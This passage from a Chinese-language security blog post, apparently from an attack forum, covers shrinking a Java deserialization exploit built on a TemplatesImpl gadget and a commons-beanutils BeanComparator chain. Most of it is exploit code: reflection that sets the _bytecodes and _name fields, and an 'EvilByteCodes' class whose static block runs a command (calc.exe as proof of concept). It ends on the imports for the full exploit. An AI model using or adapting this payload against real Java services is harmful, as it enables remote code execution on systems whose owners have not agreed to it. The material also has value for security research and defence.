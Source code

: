 小了不少，大概四分之一。

#### 优化代码

我们还可以对我们上面的 exp 进行进一步的优化 `_name` 不为空即可，我们可以让它尽可能短，`_tfactory`属性可以删除（分析`TemplatesImpl`得出）

```java
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{clazz.toBytecode()});
        setFieldValue(templates, "_name", "1");
```

同时 code 的构造我们也可以进一步进行精简，先不看我们的 exp

```java
public class EvilByteCodes extends AbstractTranslet {
    static {
        try {
            Runtime.getRuntime().exec("calc.exe");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {

    }
}
```

这是 4ra1n 师傅原本构造的恶意类，`e.printStackTrace();` 捕获异常后进行了处理，实际上并不需要。

不过我这里是用的 javassist 来进行操作，本身应该也没有写什么异常处理，究竟里面写了什么要靠 javassist 定夺了，不过这里我们可以把 setName 去掉~

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-2c4d3cfac2c06bcacac3ef2a8577094c4cde7d3c.png)

结果一运行，只少了五十

尝试把生成 evilcode 的部位精简一下，精简成上面 4ra1n 师傅的样子

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.NotFoundException;
import org.apache.commons.beanutils.BeanComparator;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.math.BigInteger;
import java.util.Base64;
import java.util.PriorityQueue;
```